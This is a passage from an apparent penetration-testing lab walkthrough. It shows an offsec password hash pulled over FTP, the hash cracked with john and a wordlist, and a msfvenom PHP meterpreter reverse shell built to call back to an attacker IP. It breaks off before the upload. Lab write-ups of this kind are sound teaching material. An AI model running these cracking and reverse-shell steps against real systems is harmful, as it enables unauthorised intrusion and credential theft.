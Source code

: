 ```bash
226 Closing data connection.
45 bytes received in 0.11 secs (0.4185 kB/s)
ftp> get .htaccess
local: .htaccess remote: .htaccess
200 PORT Command successful.
150 File status okay; about to open data connection.
226 Closing data connection.
161 bytes received in 0.10 secs (1.5832 kB/s)
ftp> bye
221 Goodbye.
kali@kali:~$

The index.php file doesn’t contain anything of value.

The .htpasswd file contains a password hash for the offsec user.

kali@kali:~$ cat .htpasswd 
offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0

The .htaccess file indicates that the .htpasswd file is used for authentication.

kali@kali:~$ cat .htaccess
AuthName "Qui e nuce nuculeum esse volt, frangit nucem!"
AuthType Basic
AuthUserFile c:\\wamp\www\.htpasswd
<Limit GET POST PUT>
Require valid-user
</Limit>kali@kali:~$

This means that if we crack the hash, we can authenticate as the offsec user.
Password Cracking

We can use john to attempt to crack the retrieved password hash.

kali@kali:~$ john .htpasswd --wordlist=/usr/share/wordlists/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
elite            (offsec)
1g 0:00:00:00 DONE (2020-12-27 17:56) 8.333g/s 211200p/s 211200c/s 211200C/s 191192..260989
Use the "--show" option to display all of the cracked passwords reliably
Session completed
kali@kali:~$

We discover that the password for the offsec user is elite.
PHP Reverse Shell

Since we discovered a PHP file on the server, it is reasonable to assume that the server can interpret and process PHP files. We can try to upload a PHP reverse shell. First, we’ll generate the payload.

kali@kali:~$ msfvenom -p php/meterpreter/reverse_tcp -f raw lhost=192.168.49.68 lport=443 > pwn.php

[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1113 bytes

Next, we’ll log back in to FTP as admin and upload the malicious PHP file.

```